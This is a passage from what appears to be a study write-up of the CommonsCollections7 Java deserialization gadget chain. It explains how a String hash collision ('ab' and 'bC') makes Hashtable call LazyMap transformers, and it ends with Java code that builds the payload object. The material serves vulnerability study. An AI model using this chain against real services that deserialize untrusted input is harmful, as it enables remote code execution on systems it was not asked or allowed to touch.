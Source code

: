```java
	        if (!value.equals(m.get(key)))  
	            return false;  
	    }  
	}
	...
}
``` 
^CC7-01

If the input object `o` is a `LazyMap`, `m.get(key)` will trigger its transformers. By the way, even if a `LazyMap` does not have the key of another map, it's still equivalent to that map(which can be any map), since it's able to create the missing key and `get()` will always return a value. ^1b8389

#### Hash collision

After understanding the routine, let's construct the two `LazyMap`. First, look at the `hashCode()` of `LazyMap`, which delegates to `AbstractMapDecorator`, then delegates to the underlying map(here is `HashMap`), finally find it in its super class `AbstractMap`:
```java
public int hashCode() {  
    int h = 0;  
    Iterator<Entry<K,V>> i = entrySet().iterator();  
    while (i.hasNext())  
        h += i.next().hashCode();  
    return h;  
}
```
Consider a `LazyMap` with single entry: `"aa": 1`, its hash code should equals to `"aa".hashCode()`. Step into `String#hashCode`, its document says:

> Returns a hash code for this string. The hash code for a String object is computed as:
> s[0]*31^(n-1) + s[1]*31^(n-2) + ... + s[n-1]
> 
> using int arithmetic, where s[i] is the ith character of the string, n is the length of the string, and ^ indicates exponentiation. (The hash value of the empty string is zero.)

`"ab".hashCode()` is calculated as `'a'*31 + 'b'`. It's easy to find a collision. Abstract the hash code of two-character string to `x*31 + y`, which is equals to `(x+1)*31 + (y-31)`, so one of the equivalences of `"ab"` is `"bC"` .

#### Write payload
```java
ChainedTransformer chainedTransformer1 = new ChainedTransformer(new Transformer[]{});
Map innerMap1 = new HashMap();  
Map innerMap2 = new HashMap();  
LazyMap lazyMap1 = (LazyMap) LazyMap.decorate(innerMap1, chainedTransformer1);  
LazyMap lazyMap2 = (LazyMap) LazyMap.decorate(innerMap2, chainedTransformer1);  
lazyMap1.put("ab", 1);  
lazyMap2.put("bC", 1);  
  
Hashtable hashtable = new Hashtable();  
hashtable.put(lazyMap1, 1);  
hashtable.put(lazyMap2, 1);  
  
Reflections.setFieldValue(chainedTransformer1, "iTransformers", transformers);  
  
lazyMap2.remove("ab");

return hashtable;
```


[^1]: [Paper/浅谈Java反序列化漏洞修复方案.md at master · Cryin/Paper](https://github.com/Cryin/Paper/blob/master/%E6%B5%85%E8%B0%88Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E4%BF%AE%E5%A4%8D%E6%96%B9%E6%A1%88.md)